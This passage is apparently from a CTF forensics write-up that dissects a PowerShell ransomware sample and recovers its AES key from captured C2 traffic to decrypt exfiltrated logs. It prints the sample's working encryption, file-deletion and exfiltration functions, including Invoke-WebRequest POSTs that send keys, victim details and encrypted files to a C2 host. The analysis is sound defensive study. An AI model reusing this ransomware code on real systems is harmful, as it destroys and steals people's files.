> 2. Generate AES key then encrypt the files and log them.
> 3. Send the results, logs to the C2 and exfiltrate `.enc` files.
> 4. Create a ransom `readme` note and display a GUI popup with `Pay Now!` button
> 5. Notify the C2 either `OK`, `Close` or `Pay Flags`
{: .prompt-tip}

Let's analyze each function more carefully
#### AESEncryption
```powershell
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
```

- Param block:
  ```powershell
  Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   ```
  - `$Key` for encrypt and decrypt.
  - `$Text` is plaintext to encrypt.
  - `$Path` is path to file to encrypt.
- Begin block:
  ```powershell
  Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   ```
   - Create SHA256 hash 
   - Set AES encryption to `CBC` with `PKCS7` and `256 bit` key. Block Size is `128 bit`
- Process block:
  ```powershell
  Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
   ```
   - First it hashes the `$Key` using `SHA-256` and stores it in `$n9ibn`
   - If `$Text` is provided, it encrypts it
   - If `$Path` is provided, it reads the file's bytes and encrypts them
   - It creates an AES Encryptor with the key and a random IV
   - Encrypts the plaintext bytes and stores them in `$encryptedBytes`
   - The IV is added to the encrypted data
   - Return `base64` encoded text or file
   - Clean up AES resources
#### R64Encoder
```powershell
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
```
- Takes `$args` as input
  - If `$args[0]` is "-t", converts the text in `$args[1]` to bytes using UTF-8, then encodes it using base64 and stores it in `$VaFQ`
  - If `$args[0]` is "-f", reads the file in `$args[1]`, converts it to bytes, then encodes it using base64 and stores it in `$VaFQ`
  - Removes the padding character "=" from base64 and replaces "C" with "-" as well as "E" with "_"
  - Converts `$VaFQ` to a character array stored in `$8bKW`, reverses the array, then joins all characters to create and return `$R64Base`
#### SendResults
```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- Use `AES` on `$WiETm` with the key stored in `$Uz19o` thenstored it in `$cvf`
- `$cvf` then get encoded by `R64Encoder` and stored in `$cVl` 
- Stored `$cVl`, `$OgE`, `$zVSza` and `$7VEq` in `$2YngY` respectively. 
-  Filter all strings, line that have `!` in `$Directory$slash$I26`, excluding all strings have `YagiRansom!` and logs it to `$RansomLogs`
-  Encode `$2YngY` with base64 and stores it in `$XoX`
-  `$RansomLogs` also got encrypted with base64 and stored in `$B64Logs`
-  Send the `$XoX` to endpoint `$7CiB:$UFX/data` and `$B64Logs` to endpoint `$7CiB:$UFX/logs`
#### EncryptFiles
```powershell
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
- Create a exclusion list for the ecnryption function. 
- Browse through the folder and exclude all the files that have extension in the list, put the path in `$i`
- Use AES on `$i` with the key is `$WiETm` and logs them in the format:  `$Directory$slash$I26" -Value "[!] $i is now encrypted`  
- Only log the file has `!` and excluding the `YagiRansom!`
#### ExfiltrateFiles
```powershell
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
- Sends an initial request to the C2 server at `$7CiB:$UFX/files` endpoint.
- Checks if any files have been encrypted by searching for the text "No files have been encrypted!" in the ransom note.
- If files have been encrypted:
  - Finds all `.enc` files in the directory and its subdirectories.
  - For each encrypted file:
    - Extracts the filename using `split` with the system's path separator.
    - Encodes the file content using `R64Encoder` with `-f` flag.
    - Encodes the filename using `R64Encoder` with `-t` flag.
    - Uploads the encoded file to the C2 server using the encoded filename in the URL path
#### Main
```powershell
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
- Create `$WiETm` randomly.
- Encrypt files in `EncrypFiles`.
- Use `ExfiltrateFiles` to filter and send the data.
### Reversing the encryption process
We need to find the main key `$WiETm`. You can use `Ctrl` + `F` to find where `WiETm` is used in the functions.

We can see in the function `SendResults`:
```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- `$WiETm` is the plaintext that gets encrypted with AES using the key `$Uz19o` and stored in `$cvf`
- `$cvf` is then encoded by `R64Encoder` and stored in `$cVl`
- `$cVl` is stored in `$2YngY` along with other variables
- `$2YngY` is encoded with base64 and stored in `$XoX`
- `$XoX` is then sent to the server

That was tiresome ~~. We got the `.pcapng` file tho, this could help us to get the data we need.
#### $XoX

Luckily the data was right at the beginning.


_HTTP Stream_

```http
POST /data HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.2; en-US) WindowsPowerShell/5.1.19041.1237
Content-Type: application/x-www-form-urlencoded
Host: 192.168.240.1:443
Content-Length: 188

0IzL5AzL5_DItASOwoDMwAiPgQmb2ZWMiBHZ18Gat4Wa3BiPgI3b0Fmc0NXaulWbkFGI+AiWsZ_TkRFaupFVaNjYqZ_akpnV0RmbWVnWy40VTJjSRJ2X1cFZHZVUlhlTtQmbOBFTxQWWShFawV1V5MVUtp0STRkWxFlaORkTHZkRWRUV4ZlVOp0VnBiP
HTTP/1.1 200 OK
Content-Length: 69
Server: Microsoft-HTTPAPI/2.0
Date: Wed, 18 Sep 2024 17:09:37 GMT

<h1>It Works!</h1><p>This is the default web page for this server</p>
```
The endpoint was `/data` and sent with `HTTP POST`. Thus we could see our first clue.

```
$XoX = 0IzL5AzL5_DItASOwoDMwAiPgQmb2ZWMiBHZ18Gat4Wa3BiPgI3b0Fmc0NXaulWbkFGI+AiWsZ_TkRFaupFVaNjYqZ_akpnV0RmbWVnWy40VTJjSRJ2X1cFZHZVUlhlTtQmbOBFTxQWWShFawV1V5MVUtp0STRkWxFlaORkTHZkRWRUV4ZlVOp0VnBiP
```

#### $2YngY
We got `$XoX` and `$2YngY` was encrypted with bas64 to get `$XoX`.

We could write a script to decode `$XoX` to get the data we need.

```python
import base64

def reverse_decode(strings):
    reversed_strings = strings[::-1]
    replaced_strings = reversed_strings.replace("-", "C").replace("_", "E")

    padding = len(replaced_strings) % 4
    if padding:
        replaced_strings += "=" * (4 - padding)
    
    decoded = base64.b64decode(replaced_strings)
    return decoded

XoX = "0IzL5AzL5_DItASOwoDMwAiPgQmb2ZWMiBHZ18Gat4Wa3BiPgI3b0Fmc0NXaulWbkFGI+AiWsZ_TkRFaupFVaNjYqZ_akpnV0RmbWVnWy40VTJjSRJ2X1cFZHZVUlhlTtQmbOBFTxQWWShFawV1V5MVUtp0STRkWxFlaORkTHZkRWRUV4ZlVOp0VnBiP"
decoded = reverse_decode(XoX)
print(decoded.decode('utf-8', errors='ignore'))
```
```powershell
python .\B64Reverse.py
> gWJNVVxUDVFFGNDNjQqZDSKJmQS9WUphXRYd1LPNnd-NXeQVGdW5_bQJ2SWN2ZuVndtVzdhFjb3ZTZnhTdLFlZ > administrator > win-ho5dpb1fvnd > 00:09 - 19/09/24
```
Remember ` $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"` thus we could see that:
- `$cVl`: gWJNVVxUDVFFGNDNjQqZDSKJmQS9WUphXRYd1LPNnd-NXeQVGdW5_bQJ2SWN2ZuVndtVzdhFjb3ZTZnhTdLFlZ
- `$OgE`: administrator
- `$zVSza`: win-ho5dpb1fvnd
- `$7VEq`: 00:09 - 19/09/24

#### $cvf
And `$cVl` also base64 encoded from `$cvf`. Reuse the script to get what we need.
```powershell
python -u "e:\CTF\UrgentTina SVATTT\B64Reverse.py"
fQKu8ge6wn1aw5mvungcVKbPlNVtePysBvsO/WXExiQoRBbJH6jB3C4aET51USIZ
```
`$cvf` was the result of the AES encryption. We need to find the key which was `$Uz19o`
#### $Uz19o
`Ctrl` + `F` with `$Uz19o` give us where we could get the value for this variable.
```powershell
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
```
`$Uz19o` was created from `$7VEq`, `$zVSza` and `$OgE`.
- `$7VEq`: Date and time when the script was executed (found earlier ` 00:09 - 19/09/24` )
- `$zVSza`: Machine name (found earlier `win-ho5dpb1fvnd`)
- `$OgE`: User name (found earlier `administrator`)

We got everything now let's find `$Uz19o`
```python
date_time = "00:09 - 19/09/24" # $7VEq
username = "win-ho5dpb1fvnd"  # $zVSza
machine_name = "administrator"  # $OgE

formatted_date = date_time.replace(":", "").replace(" ", "").replace("-", "").replace("/", "")
uz19o = formatted_date + username + machine_name

print(uz19o)
```
```powershell
python -u "e:\CTF\UrgentTina SVATTT\Uz.py"
0009190924win-ho5dpb1fvndadministrator
```
#### $WiETm
We got all the data to find `$WiETm` now.

```python
from Crypto.Hash import SHA256
from Crypto.Cipher import AES
import base64

def decrypt_aes(ciphertext, key):
    hashed_key = SHA256.new(key.encode('utf-8')).digest()
    
    enc_bytes = base64.b64decode(ciphertext)
    
    iv = enc_bytes[:16]
    cipher_strings = enc_bytes[16:]
    
    cipher = AES.new(hashed_key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(cipher_strings)
    
    decrypted = decrypted.rstrip(b"\0")
    return decrypted.decode('utf-8')

cvf = "fQKu8ge6wn1aw5mvungcVKbPlNVtePysBvsO/WXExiQoRBbJH6jB3C4aET51USIZ" 
Uz19o = "0009190924win-ho5dpb1fvndadministrator" 
WiETm = decrypt_aes(cvf, Uz19o) 
print(WiETm)
```
```powershell
python -u "e:\CTF\UrgentTina SVATTT\AESDecrypt.py"
YaMfem0zr4jdiZsDUxv1TH69
```
Finally we got `$WiETm: YaMfem0zr4jdiZsDUxv1TH69` now

#### Logs 

We only need to decrypt the logs that were sent to endpoint $7CiB:$UFX/logs


_HTTP Stream_

```http
POST /logs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.2; en-US) WindowsPowerShell/5.1.19041.1237
Content-Type: application/x-www-form-urlencoded
Host: 192.168.240.1:443
Content-Length: 5700

kVGdwlncj5WZgc3buBycpByZwpmLy_TYykjN4_jYjNWO1YTM3cjNmJmZxgjMmFWZycjN5Y2X1cTO4YDOzIjM5kzMzoHXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpByZwpmLtFmb0VWa2x1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagcGcq5iN1QzN5ATMt0WY0NXLuFWYpR3chJWZz1ycsVGelBHXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpByZuBnLtlWbcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGInBnauADM0gHMwQzXmdjYzoXLNpGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpBiZkBnLzVmc1R3YlRXaoNmch9FZuF2XzRnbl1WZylWdxVmcfNnbvlGdhJXZkl2cu92YfNWZTR1bJ9Ve0lmc1NWZz9FVvl_XzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL581ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdugzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL281ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdukTNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL4UzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yN181ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduYTNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL1UzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05-N181ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduMTNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLyUzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05SM181ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduATNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL181ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdukDNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL4QzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yN081ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduYDNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL1QzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05-N081ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduMDNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLyQzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05SM081ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduADNfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL081ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdukzMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL4MzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yNz81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduYzMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL1MzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05-Nz81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduMzMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLyMzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05SMz81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduAzMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLz81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdukjMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL4IzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yNy81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduYjMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL1IzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05-Ny81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduMjMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLyIzXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05SMy81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduAjMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLy81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHdukTMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL4_zXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05yNx81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduYTMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnL1_zXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05-Nx81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduMTMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLy_zXnFGbmx1c05WZtV3YvR_XyV2cVVUScNnclNXVcpzQg0VIbB-ZlRHc5J3YuVGI39mbgMXagQHe05SMx81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGI0hHduATMfdWYsZGXzRnbl1Wdj9GRcJXZzVVRJx1cyV2cVxlODBSXhsFIkVGdwlncj5WZgc3buBycpB-d4RnLx81ZhxmZcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGIn5Gcus2YhxmYcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGInBnaugzYyMTMmdzYkJWNykjMzAjMxkTY0QDMhRWY5MjNxQWYcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGInBnau42X1MjM5QzNyITO3IjN4kjN0IjM28FOzMTN4MjM4IjMwcDMzIzXzMjM4YzM4QjMcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyWgQWZ0BXeyNmblBydv5GIzlGIn5GcuQWZ1YDN4UzYjZTMxgTNkNGZhFTNzMjY4cDZ1UWYiNTMcNHduVWb1N2b_xlclNXVFl_XzJXZzVFX6M_IdFyW

```
The logs were encrypted with R64Encoder so we'll reuse the script we used before.



It's a bit hard to read, so we can modify the script a bit.

```powershell
 python .\B64ReverseLogs.py
[!]
 C:\Users\IEUser\Documents\13bae5d78b3351adcd58116cc58465ed.png is now encrypted [!]
 C:\Users\IEUser\Documents\248368233_230702282385338_6224698627922749235_n.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\ad1639ada044a912032925bdc7f132c8.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\black.png is now encrypted [!]
 C:\Users\IEUser\Documents\flag_1.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_10.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_11.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_12.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_13.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_14.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_15.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_16.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_17.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_18.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_19.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_2.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_20.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_21.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_22.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_23.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_24.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_25.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_26.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_27.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_28.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_29.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_3.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_30.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_31.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_32.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_33.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_34.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_35.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_36.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_37.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_38.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_39.txt is now encrypted [!]
